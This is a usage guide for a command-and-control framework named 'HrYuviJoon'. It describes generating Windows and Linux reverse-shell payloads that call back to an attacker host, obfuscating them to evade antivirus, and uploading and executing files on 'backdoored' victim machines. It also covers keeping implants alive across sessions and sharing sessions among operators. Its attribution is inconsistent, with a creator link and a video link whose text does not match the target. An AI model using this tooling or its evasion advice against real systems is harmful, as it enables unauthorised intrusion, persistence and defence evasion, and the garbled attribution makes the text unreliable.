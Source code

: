 # Usage Guide
:warning: HrYuviJoon was explicitly developed and tested on **kali linux**.  
:warning: This guide is a work in progress currently describing key features. Check out HrYuviJoon's introduction on youtube for more info.

[2022-11-30] [John Hammond](https://github.com/HrYuviJoon) showcased the tool in this incredible video -> [youtube.com/watch?v=pTUggbSCqA0](https://www.youtube.com/watch?v=pTUggbSCqA0)  
[2023-03-30] Latest release demo, made by me -> [youtube.com/watch?v=NqZEmBsLCvQ](https://www.youtube.com/watch?v=HR1KM8wrSV8)  

**Disclaimer**: Using this tool against hosts that you do not have explicit permission to test is illegal. You are responsible for any trouble you may cause by using this tool.

## Table of contents
1. [News](#News)
2. [Generate Reverse Shell Commands](#Generate-Reverse-Shell-Commands)
3. [Connect With Sibling Server](#Connect-With-Sibling-Server)
4. [Shell](#shell)
5. [Upload Command](#upload)
6. [Conptyshell](#Conptyshell)
7. [Exec](#Exec)
8. [Flee](#Flee)
9. [Purge](#Purge)
10. [Chat with Sibling Servers](#Chat-with-Sibling-Servers)
11. [Session Defender](#Session-Defender)

## News
### 2023-08-07 Update log
- A new update mechanism was introduced that compares file signatures from the main branch of the project's repo against local installation file signatures and proceeds to upgrade. The option `--skip-update` was also added.

### 2023-08-03 Update log
- HoaxShell implants are now reusable as long as they were generated by the HrYuviJoon instance you are trying to connect back to from the victim (Legit session data is saved on disk and is loaded into memory every time you start HrYuviJoon on your machine). HrYuviJoon will also re-establish a session if it receives beacons from it (e.g., because the payload is still running on a victim from a past session).
- You can use the new prompt command `flee` to exit HrYuviJoon without terminating active sessions. That way, next time you start it, if there are alive beacons from victims, sessions will be re-established.
- The `--insecure` option was added which will allow sibling servers to connect to your instance without approval.
- Added a filter for random socket connections to HrYuviJoon's TCP multi-listener that should prevent establishing junk sessions.
- Fixed an issue regarding the sessions table that could break because of junk TCP sessions.
- Added the `purge` prompt command to delete all session related metadata stored on disk.

### 2023-03-31 Update log
- The Payload Generator class was redesigned to work by dynamically engaging payload templates with a standard structure. This makes payload generation much easier and allows users to edit the default payload templates or add their own, according to their needs & tactics. As you'll notice, most of the default templates I've added for both Windows and Linux are designed to start as new processes.
- The stability and general functionality of the pseudo-shell prompt ("shell" command) has been significantly improved.
- The "upload" and "conptyshell" commands were added.
- A new chat feature was added (you can broadcast messages to all siblings by starting a command with "#").
- The "exec" command is also improved but still kind of unstable. Someday it's gonna be doing wonders. Have a little faith.


## Generate Reverse Shell Commands
Use the `generate` prompt command to generate payloads for Windows / Linux machines. 
In the latest HrYuviJoon release, this function was redesigned to use payload templates (files). In `Core/payload_templates/<OS>/<HANDLER>/` you can find these templates, edit them, make your own, etc. Ultimately, you should replace the predefined Windows reverse shell commands with obfuscated versions. That way you can create a personalized instance of HrYuviJoon and deal with AV evasion in a more productive and efficient way. Here's how 📽️ -> [youtube.com/watch?v=grSBdZdUya0](https://www.youtube.com/watch?v=grSBdZdUya0)  

Main logic:
```
generate payload=<OS_TYPE/HANDLER/PAYLOAD_TEMPLATE> lhost=<IP or INTERFACE> [ obfuscate encode ]
```

Usage examples:
```
generate payload=windows/netcat/powershell_reverse_tcp lhost=eth0 encode
generate payload=linux/hoaxshell/sh_curl lhost=eth0
```

- The ENCODE and OBFUSCATE keywords are enabled for certain templates and can be used during payload generation. 
- For info on a particular template, use "generate" with PAYLOAD being the only provided argument.
- To catch HoaxShell https-based reverse shells you need to start HrYuviJoon with SSL.
- Ultimately, one should edit the templates and add obfuscated versions of the commands for AV 
  evasion.

⚡TCP socket based shells (netcat) are more stable and reliable than HoaxShell.
⚠️HoaxShell payloads are not reusable (will work only once). I will probably change that in the future.

Use the prompt commands `backdoors` and `sessions` to list info about your active shell sessions.

## Connect With Sibling Server
Use the `connect` prompt command to connect and share your shell sessions with another machine running HrYuviJoon. 
```
connect <IP> <TEAM SERVER PORT>
```
By default, the Core server port is `65001` (you can change that with `-p` when starting HrYuviJoon).

## The shell Command
Use the `shell` prompt command to start an interactive pseudo-shell for a shell session. The effectiveness of the pseudo shell is going to vary depending on the quality and stability of the shell session. Again, you should prefer TCP socket based shells as they will always be more stable than HoaxShell.
```
shell <SESSION ID or ALIAS>
```
Press Ctrl + C or type `exit` to return to the main HrYuviJoon prompt.

## Upload
Use the `upload` prompt command to transfer a file from your system to a backdoored machine. The file will be http requested automatically from the Http File Smuggler (running by default on port 8888). The feature works regardless if the session is owned by you or a sibling server. You can run the command from HrYuviJoon's main prompt as well as the pseudo shell terminal.

From the main prompt:
```
upload <LOCAL_FILE_PATH> <REMOTE_FILE_PATH> <SESSION ID or ALIAS>
```

From an active pseudo shell prompt:
```
upload <LOCAL_FILE_PATH> <REMOTE_FILE_PATH>
```

## Conptyshell
Use the `conptyshell` prompt command to automatically slap `Invoke-ConPtyShell.ps1` against a shell session. A new terminal window with netcat listening will pop up (you need to have gnome-terminal installed) and the script will be executed on the target as a new process, meaning you get a fully interactive shell AND you get to keep your backdoor. Currently works only for powershell.exe backdoors.
Because I love Invoke-ConPtyShell.

Usage: 
```
conptyshell <IP or INTERFACE> <PORT> <SESSION ID or ALIAS>
```

## Exec
Use the `exec` prompt command to execute a **quoted command** or **script from your file system** against a session. Files are executed by being http requested from the Http File Smuggler. Be carefull! The script you execute should much the shell session type (e.g., a PowerShell script script should be executed against a powershell.exe session, etc).  

Usage: 
```
exec </path/to/local/file> <SESSION ID or ALIAS>
exec 'net user;Get-Date' <SESSION ID or ALIAS>
```

## Flee
Use the `flee` prompt command to exit HrYuviJoon without terminating any active sessions. If you start HrYuviJoon again later and there are still victim machines sending HoaxShell beacons, the sessions will be re-established automatically.  

## Purge
HrYuviJoon automatically stores information regarding generated implants and loads them in memory every time it starts. This way, HoaxShell generated implants become reusable and it is possible to re-establish older sessions, assuming the payload is still running on the victim(s). Use the `purge` prompt command to delete all session related metadata. It does not affect any active sessions you may have.

## Chat with Sibling Servers
Commands starting with "#" are interpreted as messages and will be broadcasted to all connected Sibling Servers.

## Session Defender
HrYuviJoon has a function that inspects user issued shell commands for input that may cause a backdoor shell session to hang (e.g., unclosed single/double quotes or backticks, commands that may start a new interactive session within the current shell and more). Use the `cmdinspector` command to turn that feature on/off.  

Usage: 
```
cmdinspector <ON/OFF>
```

